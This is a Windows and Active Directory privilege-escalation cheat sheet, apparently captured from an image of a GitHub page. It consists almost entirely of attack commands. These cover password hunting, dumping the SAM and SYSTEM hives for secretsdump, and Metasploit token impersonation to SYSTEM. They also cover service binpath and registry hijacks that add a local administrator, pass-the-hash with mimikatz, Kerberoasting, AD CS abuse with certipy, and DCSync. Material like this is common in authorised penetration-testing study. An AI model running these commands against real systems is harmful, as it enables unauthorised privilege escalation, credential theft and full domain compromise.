 ## SYSTEM ENUMERATION
```pwsh
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic logicaldisk get caption,filesystem,freespace,size,volumename

```
## USER ENUMERATION
```pwsh
whoami /priv
whoami /groups
net user
net user <username>
net localgroup
```


## NETWORK ENUMERATION
```pwsh
ipconfig /all
arp -a
route print
netstat -ano
```

## HUNTING PASSWORDS
findstr /si password *.txt
netsh wlan show profile [SSID] key=clear

## FIREWALL / ANTIVIRUS
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

## WINDOWS SUBSYSTEM FOR LINUX
where /R C:\windows bash.exe
where /R C:\windows wsl.exe

## POTATO ATTACK
multi/script/web_delivery
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_075_reflection
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
getsystem

## RUNAS
cmdkey /list
C:\Windows\System32\runas.exe /user:[domain/user] /savecred "C:\Windows\System32\cmd.exe /c [command] > [output]"

## REGSVC ACL
reg save HKLM\SAM SAM --> download sam
reg save HKLM\SYSTEM SYSTEM  --> download system

	- secretsdump.py local -sam sam -system system

Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
sc start regsvc

## STARTUP APPS
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

## DLL HIJACKING
sc stop <service> & sc start <service>
ProcMon filter: "NAME NOT FOUND" and ends with ".dll"

## BINARY PATHS
accesschk64.exe -uwcv Everyone *
sc qc <service>
sc config <service> binpath= "net localgroup administrators [user] /add"
sc stop <service> & sc start <service>

## UNQUOTED SERVICE PATHS
## (Run PowerUp.ps1 and replace files in the unquoted directory path)

## CVE-2019-1388
## Follow the manual GUI steps for privilege escalation.

## POWERSHELL SCRIPTS
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine
.\PowerUp.ps1
Invoke-AllChecks

## AD ENUMERATION (NO CREDENTIALS)
net user /DOMAIN
net group /DOMAIN
net share
net localgroup

## AD ENUMERATION (WITH CREDENTIALS)
GetNPUsers.py domain/user -dc-ip <IP> -no-pass
ldapsearch -x -H ldap://<IP> -b "dc=domain,dc=com"

## KERBEROASTING
GetSPN.ps1
Invoke-Kerberoast.ps1

## OVERPASS THE HASH
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe

## PSExec
psexec.py <domain>/<user>:<pass>@<IP>

## AD CS ATTACK
certipy find -dc-ip <IP> -u <user> -p <pass>
certipy req -ca <CA_NAME> -target <DC> -u <user> -p <pass>
certipy auth -pfx <admin.pfx> -dc-ip <IP>
evil-winrm -i <target> -u administrator -H <HASH>

## DCSYNC ATTACK
secretsdump.py <domain>/<user>@<IP> -hashes <HASH>
rpcclient -U "" <IP>